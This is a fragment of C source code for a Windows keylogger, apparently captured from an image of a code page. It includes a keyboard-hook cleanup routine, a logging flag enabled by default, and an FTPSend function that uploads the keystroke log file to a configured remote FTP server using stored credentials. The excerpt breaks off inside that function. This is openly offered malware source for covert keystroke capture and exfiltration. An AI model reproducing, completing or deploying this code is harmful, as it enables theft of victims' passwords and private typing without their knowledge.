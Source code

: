 // key logging status
int nLogFlag = 1;  // enabled by default

// error message handler function
VOID Fatal(LPCSTR s) {
#ifdef DEBUG
	CHAR err_buf[BUF_SIZ];

	wsprintf(err_buf, "%s failed: %lu", s, GetLastError());
	MessageBox(NULL, err_buf, NAME, MB_OK | MB_SYSTEMMODAL | MB_ICONERROR);
#endif

	ExitProcess(1);
}

// clean up function on exit
VOID CleanUp(VOID) {
	if (lpLogBuf && ghLogHeap) HeapFree(ghLogHeap, 0, lpLogBuf);
	if (ghFile) CloseHandle(ghFile);
	if (ghHook) UnhookWindowsHookEx(ghHook);
	if (ghMutex) CloseHandle(ghMutex);
	//UnregisterHotKey(NULL, HOTKEY_ID);
}

VOID FTPSend(VOID) {
	HANDLE hMutex = CreateMutex(NULL, TRUE, "EnkiFTP");
	if (hMutex == NULL) {
		ExitThread(1);
	}

	if (GetLastError() == ERROR_ALREADY_EXISTS) {
		ExitThread(1);
	}

	CloseHandle(ghFile);

	HINTERNET hInet = InternetOpen(NAME, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, INTERNET_FLAG_ASYNC);
	if (hInet == NULL) {
		ReleaseMutex(hMutex);
		CloseHandle(hMutex);
		ExitThread(1);
	}

	HINTERNET hFTP = InternetConnect(hInet, FTP_SERVER, INTERNET_DEFAULT_FTP_PORT, FTP_USERNAME, FTP_PASSWORD, INTERNET_SERVICE_FTP, INTERNET_FLAG_PASSIVE, NULL);
	if (hFTP == NULL) {
		InternetCloseHandle(hInet);
		CloseHandle(hMutex);
		ReleaseMutex(hMutex);
		ExitThread(1);
	}

	if (FtpPutFile(hFTP, LogFilePath, FTP_LOG_PATH, FTP_TRANSFER_TYPE_BINARY, NULL) == FALSE) {
		InternetCloseHandle(hFTP);
		InternetCloseHandle(hInet);
		ReleaseMutex(hMutex);
		CloseHandle(hMutex);
		ExitThread(1);
	}

	InternetCloseHandle(hFTP);
	InternetCloseHandle(hInet);
	ReleaseMutex(hMutex);
	CloseHandle(hMutex);

	ghFile = CreateFile(LogFilePath, GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (ghFile == NULL) {
		Fatal("Failed to create keylog file");
	}